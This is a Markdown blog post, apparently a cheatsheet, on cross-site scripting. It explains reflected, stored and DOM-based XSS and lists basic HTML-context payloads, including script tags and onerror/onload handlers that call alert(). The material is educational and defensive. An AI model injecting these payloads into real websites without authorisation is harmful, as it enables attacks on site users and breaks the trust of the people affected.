 ```yaml
---
layout: post
title: XSS (Cross-Site Scripting)
date: 2025-04-10 16:41 +0300
categories: [Web Security, Client-Side Attacks]
tags: [web security, xss, javascript, html]
---
```


## Introduction

Cross-Site Scripting (XSS) is a client-side injection vulnerability that allows attackers to execute malicious JavaScript in victims' browsers. This cheatsheet covers various XSS types, detection techniques, exploitation methods, and prevention strategies.

## Types of XSS Vulnerabilities

### Reflected XSS
- Payload is part of the request and reflected in the response
- Non-persistent, typically delivered via malicious links
- Executed immediately when user visits the malicious URL

### Stored XSS
- Payload is stored on the target server (database, file system, etc.)
- Persistent, affects all users who view the infected page
- Examples: comments, user profiles, product reviews

### DOM-based XSS
- Payload executes due to client-side JavaScript manipulation
- Vulnerable JavaScript modifies the DOM unsafely
- Often doesn't involve server communication

## Common XSS Contexts & Basic Payloads

### HTML Context

```html
<!-- Basic alert -->
<script>alert('XSS')</script>

<!-- Image with onerror -->
<img src="x" onerror="alert('XSS')">

<!-- SVG-based XSS -->
<svg onload="alert('XSS')">

<!-- Body onload -->
<body onload="alert('XSS')">

<!-- Video tag -->
<video><source onerror="alert('XSS')">

<!-- Audio tag -->
<audio src=x onerror="alert('XSS')">
```

